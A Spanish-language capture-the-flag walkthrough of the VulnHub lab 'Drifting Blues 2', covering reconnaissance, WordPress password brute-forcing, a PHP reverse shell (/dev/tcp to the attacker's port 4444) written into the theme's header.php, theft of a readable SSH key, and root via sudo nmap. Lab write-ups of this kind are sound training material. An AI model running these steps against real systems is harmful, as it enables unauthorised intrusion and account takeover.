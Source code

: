 ```yaml
---
title: Driffting Blues 2
date: 2024-08-10
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.145 -n -Pn -v
```

![picture](/assets/images/vulnhub/db2-1.png){: w="600" h="300" }

Una vez comprobado, se lanzarán los scripts predeterminados de NMAP, para ver si encuentra algo significativo en los puertos que se han encontrado abiertos.

```bash
nmap -p21,22,80 -sC -sV 192.168.1.145 -v
```

![picture](/assets/images/vulnhub/db2-2.png){: w="600" h="300" }

Se encuentra que el usuario **Anonymous** del servicio **FTP** está activo, y en su directorio podemos encontrar una imagen llamada "*secret.jpg*".

![picture](/assets/images/vulnhub/db2-3.png){: w="600" h="300" }
![picture](/assets/images/vulnhub/db2-4.png){: w="600" h="300" }

A continuación, iremos a la página web para ver su contenido.

![picture](/assets/images/vulnhub/db2-5.png){: w="600" h="300" }

No se aprecia nada, así que se realizará **Fuzzing**, para intentar encontrar alguna entrada que no se pueda ver.

```bash
gobuster dir -u http://192.168.1.145/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403 
```

![picture](/assets/images/vulnhub/db2-6.png)

Gobuster encuentra "**/blog/**", pero no se ven los estilos de la página.

![picture](/assets/images/vulnhub/db2-7.png)

Viendo el código fuente de la página, se puede comprobar que el servidor asociado a la **IP** tiene un nombre de **dominio**, el cual lo habrá que añadirlo al archivo "**/etc/hosts**".

![picture](/assets/images/vulnhub/db2-8.png)
![picture](/assets/images/vulnhub/db2-9.png)

Con esto ya se puede ver la página web tal como es, esto ocurre porque los servidores web a menudo utilizan nombres de dominio para decidir qué contenido mostrar, especialmente cuando se manejan múltiples sitios en la misma dirección IP. Usar un nombre de dominio en lugar de una IP permite que el servidor web sirva el contenido adecuado según la configuración de "virtual hosts". Cuando configuras el nombre de dominio en /etc/hosts, le estás diciendo a tu máquina que use ese nombre de dominio para la IP dada, lo que permite al servidor web responder correctamente basándose en esa información.

![picture](/assets/images/vulnhub/db2-10.png)

Con **Wappalyzer**, que es una extensión del navegador gratuita, se puede ver qué está corriendo por detrás de la página web, el gestor de contenidos es *Wordpress*, usa *php*, *mysql*, etc.

![picture](/assets/images/vulnhub/db2-12.png){: w="300" h="200" }

A continuación realizaré **Fuzzing** sobre "*http://driftingblues.box/blog/*" para ver si hubiera más entradas dentro de "**/blog/**".

![picture](/assets/images/vulnhub/db2-13.png)

---

## **Explotación**

Al ver que está corriendo un **Wordpress**, con **WPSCAN**, se podrá hacer un escaneo del gestor, (*es recomendable crearse una cuenta en WPSCAN para poder obtener la API-token, que sirve para acceder a ciertos servicios y características avanzadas proporcionados por WPScan*).

Ésta herramienta puede buscar *usuarios*, *vulnerabilidades*, *plugins*, *temas*... En este caso se buscarán usuarios.

```bash
wpscan --url http://driftingblues.box/blog -e u --api-token="API"
```

![picture](/assets/images/vulnhub/db2-14.png){: w="600" h="300" }

Y **WPSCAN** nos encuentra un usuario.

![picture](/assets/images/vulnhub/db2-15.png){: w="600" h="300" }

A continuación, se realizará un** ataque de diccionario** con la misma herramienta para encontrar la contraseña (*-U usuario*) (*-P ruta del diccionario*).

```bash
wpscan --url http://driftingblues.box/blog -U "usuario" -P /usr/share/wordlists/rockyou.txt --api-token="API"
```

![picture](/assets/images/vulnhub/db2-16.png)

Y encuentra la contraseña, así que lo siguiente será probar a entrar en el panel de autenticación **wp-admin** que había reportado antes **Gobuster** mediante el **Fuzzing** realizado en "*http://driftingblues.box/blog/*".

![picture](/assets/images/vulnhub/db2-17.png)

Y obtenemos acceso al panel del administrador.

![picture](/assets/images/vulnhub/db2-19.png)

A continuación, lo siguiente será obtener una **Shell interactiva** en nuestra máquina local, podremos escribir código **PHP** que se ejecutará dentro de "*Theme File Editor*", en el archivo "*header.php*".

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
?>
```

![picture](/assets/images/vulnhub/db2-20.png)

Y una vez guardado el archivo, se creará un **Listener** en la máquina local con **ncat** por el puerto indicado en la **Reverse Shell**.

- *Listener*

    ```bash
    nc -nlvp 4444
    ```

En el navegador, para poder ejecutar la **Reverse shell**, se introducirá la ruta del archivo "*header.php*". 

![picture](/assets/images/vulnhub/db2-21.png)

Y automáticamente, nos mandará una** Shell interactiva**, con lo cual, ya estaremos dentro del servidor.

![picture](/assets/images/vulnhub/db2-22.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Se realiza un tratamiento de la **TTY** para poder movernos mejor por la máquina.

Dentro de la máquina, el la ruta "**/home/**" se encuentra un usuario llamado **freddie**, no tenemos acceso a su directorio personal, lo siguiente será intentar migrar de usuario a **freddie**.

![picture](/assets/images/vulnhub/db2-23.png)

Viendo los permisos que tenemos dentro del directorio personal de **freddie**, se comprueba que el usuario **www-data** tiene permisos de lectura en el directorio "**.ssh**", que es el cual almacena las claves de conexión de ssh, y dentro del directorio indicado, también tiene permisos de lectura en la clave privada "**id_rsa**".

![picture](/assets/images/vulnhub/db2-24.png){: w="600" h="300" }

Mediante **SSH** se intentará entrar en el servidor como el usurio **freddie**, para ello, habrá que copiar la clave privada para crear un archivo con la clave en nuestra máquina local, la llamaremos igual (la clave privada tiene que tener permisos 600).

![picture](/assets/images/vulnhub/db2-25.png){: w="600" h="300" }

Se prueba a entrar, y se obtiene acceso al servidor como el usuario **freddie**.

![picture](/assets/images/vulnhub/db2-26.png){: w="600" h="300" }

Dentro del directorio personal de freddie, se encuentra la primera **flag**.

![picture](/assets/images/vulnhub/db2-27.png){: w="600" h="300" }

Comprobando los permisos de **SUDO** que tiene el usuario **freddie**, se comprueba que tiene los permisos en el binario "**/usr/bin/nmap**".

La web de **GTFObins** es una base de datos y un recurso para encontrar y documentar binarios de sistemas Unix/Linux, que pueden ser utilizados para obtener escalada de privilegios o ejecutar comandos en un entorno comprometido.

Dentro de la [**WEB**](https://gtfobins.github.io/gtfobins/nmap/) nos indica como escalar privilegios.

Lo ejecutamos, y obtenemos la shell de **root**, en su directorio personal encontramos la segunda **flag**.

![picture](/assets/images/vulnhub/db2-28.png){: w="600" h="300" }











